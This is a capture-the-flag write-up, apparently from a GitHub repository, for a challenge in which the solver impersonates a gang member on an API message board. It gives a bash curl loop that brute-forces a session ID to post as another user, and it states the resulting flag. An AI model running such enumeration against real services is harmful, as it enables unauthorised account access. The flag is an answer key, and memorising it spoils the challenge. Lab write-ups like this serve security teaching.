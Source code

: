 # Benjamin The Brute - L11 C06

Agent 707, one of the gang, Benjamin Goldleaf, was yesterday overheard by our inside undercover agent talking about posting notices on a secret message board that the gang use to communicate meeting times.

With a bit of detective work we've managed to find the message board and get Bens user details. We want to post a fake message using the API to try and draw one of the more senior gang members out, but we can't get it to work. See if you can.

**Tip:** Successfully post a notice on the board to get the flag.

```
💡 Hint: There seems to be a required parameter - `sessID` - requiring a number. There aren't too many users,
   maybe try brute forcing this value. You could do that in Python or you could write a BASH script using CURL.
```

## Step by Step

- Open a Linux terminal
- Run `for i in {1..100}; do curl -X POST -d "userID=24&sessID=$i" https://bondogge.com/createPost; echo ""; done`
`
- This will eventually reach to correct sessID of `78` and spit out the flag

`flag: br1ti5h.bulld0gZ`
